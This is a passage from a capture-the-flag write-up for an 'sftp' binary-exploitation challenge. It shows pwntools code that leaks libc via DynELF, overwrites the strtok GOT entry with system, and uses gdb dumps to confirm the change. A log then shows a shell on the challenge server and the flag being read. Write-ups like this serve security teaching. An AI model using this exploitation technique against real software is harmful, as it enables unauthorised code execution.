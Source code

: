 ```python
leak8 = lambda x: leak(x, 8)

with context.quiet:
    dynelf = DynELF(leak8, pie_base, elf=ELF('./sftp'))
    system = dynelf.lookup('system', 'libc')
```

The last step is to find a function, which is called with a user-controlled argument. Then, we can write the `system` address into its GOT entry since RELRO is not set to FULL.. We choose `strtok` for this purpose and we achieve a call to this function with the `mkdir` command.

```
                     |parent|            |name| | |type|
0x4994b8ac:	0x00000000c01db33f	0x0000006200000002 _ _ _ _ _ _
0x4994b8bc:	0x0000000000000000	0x0000000000000000             \
                      |size|                  |data|                      (struct file_entry)victim
0x4994b8cc:	0x0000000000000008	0x000055f597a950c0 _ _ _ _ _ _ /
```

```
gdb-peda$ x/gx 0x000055f597a950c0
0x55f597a950c0:	0x00007fb5b6770660
gdb-peda$ p strtok
$9 = {<text variable, no debug info>} 0x7fb5b6770660 <strtok>
```

```python
strtok_got = pie_base + 0x2050c0
write(p64(system), strtok_got)
```

```
gdb-peda$ x/gx 0x55f597a950c0
0x55f597a950c0:	0x00007fb5b6727390
gdb-peda$ p system
$11 = {<text variable, no debug info>} 0x7fb5b6727390 <__libc_system>
```

```
[+] Opening connection to sftp.ctfcompetition.com on port 1337: Done
[*] Paused (press any to continue)
[*] root entry   => 0x5c3d1ee5
[+] magic chunk  => 0x5d6c2342 (67th allocation)
[+] victim chunk => 0x5d6c691b (37th allocation)
[*] diff is 17881 bytes
[*] Setting up file entries: done
[+] PIE base address => 0x5600b26dd000
[+] system address => 0x7fc609926390
[*] Switching to interactive mode
$ id
uid=1337(user) gid=1337(user) groups=1337(user)
$ cat /home/user/flag
CTF{Moar_Randomz_Moar_Mitigatez!}
```
